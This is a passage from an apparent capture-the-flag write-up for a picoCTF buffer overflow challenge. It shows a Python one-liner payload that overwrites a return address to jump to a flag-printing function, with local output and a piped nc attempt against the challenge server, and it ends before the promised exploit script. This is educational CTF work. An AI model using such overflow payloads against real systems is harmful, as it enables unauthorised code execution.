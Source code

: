 ------------------------------------------------------------------------------------------
### HINT

**PRINT IS  NOT OUR FRIEND ANYMORE BECAUSE IT DOESN'T DISPLAY THE PROPER CHARACTERS BUT IT TRIES TO PRINT SOMETHING THAT CAN BE CLOSEST OR FOR ANOTHER USE**

-----------------------------------------------------------------------------------------

To do this ''inline'' which it drops you on the shell after the program 
```
❯ python3 -c
```
```
❯ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')"
output
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%
```
```python
❯ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" |xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 f691 0408  AAAAAAAAAAAA....
```

Now looks exactly what we want fliped over like little endian and we can try to pass it trhough and it interprets the jumping address

```python
❯ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
Please create 'flag.txt' in this directory with your own debugging flag.

```


Now start looking quite interesting, what if we create a flag.txt in our directory
```bash
echo 'KELFLAG{Toma_ya_lo_tenemo}' > flag.txt
```

```python
❯ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
KELFLAG{Toma_ya_lo_tenemo}
zsh: done                              python3 -c  | 
zsh: segmentation fault (core dumped)  ./vuln
```

!!!!! paaaaammm!!!!! it prints our file

Now all we have to do is run our script agains the server and see if we can get the flag:

```python

❯ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAA ...
AAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | nc saturn.picoctf.net 51340

```

but it doesn't send or run on the server so let's create an exploit in python



